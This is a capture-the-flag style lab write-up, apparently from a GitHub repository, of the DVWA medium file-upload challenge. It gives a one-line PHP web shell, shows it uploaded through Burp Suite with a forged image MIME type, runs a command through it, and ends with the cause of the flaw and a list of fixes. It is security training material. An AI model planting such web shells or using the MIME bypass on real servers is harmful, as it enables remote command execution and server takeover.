



# DVWA File Upload - Medium

## Step 1
Create a PHP web shell.

```php
<?php system($_GET['cmd']); ?>
```



## Step 2
Intercept the upload request using Burp Suite.



## Step 3
Modify the MIME type before forwarding the request.

```http
Content-Type: image/jpeg
```

## Step 4
Upload the PHP shell successfully and execute a command.

```text
http://localhost/DVWA/hackable/uploads/shell.php?cmd=whoami
```



## Result
Successfully bypassed the upload restriction and achieved command execution.

Output:

```text
www-data
```

## Reason
The application trusts the client-supplied MIME type. Since this value can be modified using Burp Suite, an attacker can disguise a PHP file as an image and bypass the validation.

## Fix
- Do not trust client-supplied MIME types.
- Verify file signatures (magic bytes).
- Restrict allowed file extensions.
- Store uploads outside the web root.
- Disable script execution in upload directories.